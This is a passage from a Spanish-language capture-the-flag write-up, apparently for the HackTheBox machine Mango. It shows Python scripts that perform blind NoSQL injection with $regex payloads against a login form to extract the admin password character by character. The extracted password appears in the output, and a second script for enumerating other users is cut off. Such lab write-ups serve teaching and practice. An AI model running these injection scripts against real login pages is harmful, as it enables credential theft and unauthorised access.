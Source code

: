```python
				"password[$regex]":"^%s%s.*" % (password,re.escape(char)),
				"login":"login"
			}

			r=requests.post(url,data=data,proxies=proxies,allow_redirects=False)
			p1.status(str(data))
			
			if r.status_code == 302:

				password+=char
				p2.status(password)


if __name__ == '__main__':
	nosqli()

```

Con ese script podemos extraer la contraseña admin, estamos utlizando un diccionario con todos los carácteres alfanumericcos y simbolos especiales, estos ultimos hay que escaparlos para que no haya conflicto con las regex. Al no saber la longitud exacta de la password debemos hacer un while infinito. Ademas estamos comprobando cuando la expresión regular es valida gracias al código de estado.

Si ejecutamos el script podemos ver el siguiente resultado.

```bash
❯ python3 script.py
[ ] Iniciando NoSQLI: {'username[$eq]': 'admin', 'password[$regex]': '^t9KcS3>!0B#2h.*', 'login': 'login'}
[↓] Datos:: t9KcS3>!0B#2
```

Podemos ver la password del usuario admin. Voy a intentar conectarme por SSH... pero no funciona.

### NoSQLI Python Script Extract Other User

Puede que haya mas usuarios en la base de datos, para ello tengo que modifcar el script.

```python
import requests,re,signal,string,sys
from pwn import *


url="http://staging-order.mango.htb"
proxies={"http":"http://127.0.0.1:8080"}

dicc_password=string.ascii_letters+string.digits+string.punctuation

dicc_user='bcdefghijklmnopqrstuvwxyaBCDEFGHIJKLMNOPQRSTUVWXYZA'


def handler(sig,frame):
	print ("[!] Saliendo...")
	sys.exit(1)

signal.signal(signal.SIGINT,handler)

def nosqli():

	user=""

	p1=log.progress("Iniciando NoSQLI")
	p1.status("Inyectando:")

	p2=log.progress("Datos:")

```